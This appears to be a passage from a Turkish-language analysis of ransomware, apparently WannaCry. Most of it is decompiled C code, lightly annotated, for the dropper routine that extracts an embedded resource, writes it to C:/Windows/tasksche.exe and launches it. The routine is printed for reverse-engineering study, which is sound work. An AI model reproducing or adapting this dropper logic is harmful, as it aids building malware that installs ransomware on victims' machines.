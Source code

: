 Dosyanın kaynaklar kısmından fidye yazılımını(örnekte `tasksche.exe`) çıkartıp çalıştıran kısım ise şurası:

```
int FidyeCikar()
{
  HMODULE hModul;
  HRSRC v3; 
  HGLOBAL v5; 
  DWORD v6; 
  HANDLE hFile; 
  int v9, v10, v11, v12, v13, v14; 
  char DosyaAdi[MAX_PATH]; 
  CHAR NewFileName[MAX_PATH]; 

  hModul = GetModuleHandleW(&ModuleName);
  if ( hModul )
  {
    // Kullanılacak olan fonksiyonların adreslerini çalışma zamanında çöz
    IslemOlustur = GetProcAddress(hModul, a_CreateProcessA);
    DosyaOlustur = GetProcAddress(hModul, aCreatefilea);
    DosyayaYaz = GetProcAddress(hModul, aWritefile);
    TutamakKapat = GetProcAddress(hModul, aClosehandle);;
    if ( IslemOlustur )
    {
      if ( DosyaOlustur )
      {
        if ( DosyayaYaz )
        {
        	// Type = "R" olan kaynağı bul
            v3 = FindResourceA(0, 0x727, Type);
            if ( v3 )
            {
              v5 = LoadResource(0, v3);
              if ( v5 )
              {
              	// Kaynağın içeriğini dön bize
                v9 = LockResource(v5);
                if ( v9 )
                {
                  v6 = SizeofResource(0, v3);
                  if ( v6 )
                  {
                  	// "C:/Windows/tasksche.exe"
                    sprintf(&DosyaAdi, aCSS, aWindows, aTasksche_exe);
                    // "C:/Windows/qeriuwjhrf"
                    sprintf(&NewFileName, aCSQeriuwjhrf, aWindows);
                    MoveFileExA(&DosyaAdi, &NewFileName, 1u);
                    hFile = DosyaOlustur(&DosyaAdi, 0x40000000, 0, 0, 2, 4, 0);
                    if ( hFile != -1 )
                    {
                      DosyayaYaz(hFile, v9, v6, &v9, 0);
                      TutamakKapat(hFile);
                      strcat(&DosyaAdi, "/i");
                      // "C:/Windows/tasksche.exe /i"
                      if ( IslemOlustur(0, &DosyaAdi, 0, 0, 0, 0x8000000, 0, 0, &v14, &v10) )
                      {
                        TutamakKapat(v11);
                        TutamakKapat(v10);
      //
      // Kapatılan süslü parantezler
      //

  return 0;
```